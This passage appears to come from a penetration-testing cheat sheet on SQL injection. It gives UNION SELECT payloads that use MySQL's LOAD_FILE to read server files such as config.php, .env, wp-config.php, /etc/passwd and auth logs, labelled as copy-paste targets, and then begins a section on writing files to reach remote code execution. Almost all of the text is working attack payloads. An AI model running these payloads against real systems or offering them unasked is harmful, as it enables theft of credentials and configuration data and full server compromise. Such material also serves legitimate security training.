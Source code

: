 #### Web Application Files
```sql
-- Common web application files
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/index.php"), 3, 4-- -     # Main page
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -    # Database config
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/admin.php"), 3, 4-- -     # Admin panel
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/.env"), 3, 4-- -          # Environment variables
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/wp-config.php"), 3, 4-- - # WordPress config
```

#### Log Files (Information Gathering)
```sql
-- System and application logs
cn' UNION SELECT 1, LOAD_FILE("/var/log/apache2/access.log"), 3, 4-- -  # Web server logs
cn' UNION SELECT 1, LOAD_FILE("/var/log/mysql/error.log"), 3, 4-- -     # Database logs
cn' UNION SELECT 1, LOAD_FILE("/var/log/auth.log"), 3, 4-- -            # Authentication logs
```

#### Windows File Reading
```sql
-- Windows system files  
cn' UNION SELECT 1, LOAD_FILE("C:\\Windows\\System32\\drivers\\etc\\hosts"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("C:\\inetpub\\wwwroot\\web.config"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("C:\\Windows\\win.ini"), 3, 4-- -
```

### Quick Reference: File Reading Payloads

**Prerequisites: FILE privilege verified above ✅**

```sql
-- Basic LOAD_FILE syntax
cn' UNION SELECT 1, LOAD_FILE("file_path"), 3, 4-- -

-- Most common targets (quick copy-paste)
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -              # Linux users
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- - # Web config  
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/.env"), 3, 4-- -       # Environment
```

### File Writing

**⚠️ High Risk Operation:** File writing can lead to Remote Code Execution (RCE) and complete server compromise.

#### Prerequisites Verification (Critical!)

**3 Requirements for File Writing:**
1. **User with FILE privilege** ✅ (verified above)
2. **secure_file_priv allows writing** ❓ (must check)
3. **Write access to target directory** ❓ (must test)

#### Step 1: Verify secure_file_priv Setting
